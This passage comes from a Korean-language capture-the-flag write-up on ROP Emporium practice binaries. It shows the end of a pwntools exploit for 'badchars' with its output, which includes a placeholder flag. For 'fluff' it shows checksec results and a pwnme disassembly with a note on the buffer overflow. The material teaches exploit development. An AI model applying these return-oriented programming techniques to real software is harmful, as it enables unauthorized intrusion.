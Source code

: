 ```python
p.sendline(pl)
p.interactive()
```
출력:
```bash
junheah@ubuntu:~/ropemp/badchars$ python exp.py
[+] Starting local process './badchars': pid 8164
[*] Switching to interactive mode
f n s
> $ cat flag.txt
ROPE{a_placeholder_32byte_flag!}
```

## 5. fluff
```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
main 함수에서 pwnme를 호출해 주고,
```nasm
Dump of assembler code for function pwnme:
   0x00000000004007b5 <+0>:     push   rbp
   0x00000000004007b6 <+1>:     mov    rbp,rsp
   0x00000000004007b9 <+4>:     sub    rsp,0x20
   0x00000000004007bd <+8>:     lea    rax,[rbp-0x20]
   0x00000000004007c1 <+12>:    mov    edx,0x20
   0x00000000004007c6 <+17>:    mov    esi,0x0
   0x00000000004007cb <+22>:    mov    rdi,rax
   0x00000000004007ce <+25>:    call   0x400600 <memset@plt>
   0x00000000004007d3 <+30>:    mov    edi,0x400910
   0x00000000004007d8 <+35>:    call   0x4005d0 <puts@plt>
   0x00000000004007dd <+40>:    mov    edi,0x400958
   0x00000000004007e2 <+45>:    mov    eax,0x0
   0x00000000004007e7 <+50>:    call   0x4005f0 <printf@plt>
   0x00000000004007ec <+55>:    mov    rdx,QWORD PTR [rip+0x20087d]        # 0x601070 <stdin@@GLIBC_2.2.5>
   0x00000000004007f3 <+62>:    lea    rax,[rbp-0x20]
   0x00000000004007f7 <+66>:    mov    esi,0x200
   0x00000000004007fc <+71>:    mov    rdi,rax
   0x00000000004007ff <+74>:    call   0x400620 <fgets@plt>
   0x0000000000400804 <+79>:    nop
   0x0000000000400805 <+80>:    leave
   0x0000000000400806 <+81>:    ret
End of assembler dump.
```
pwmme는 bof에 취약하다. 이 바이너리도 "/bin/sh" 같은 문자열이 없다.

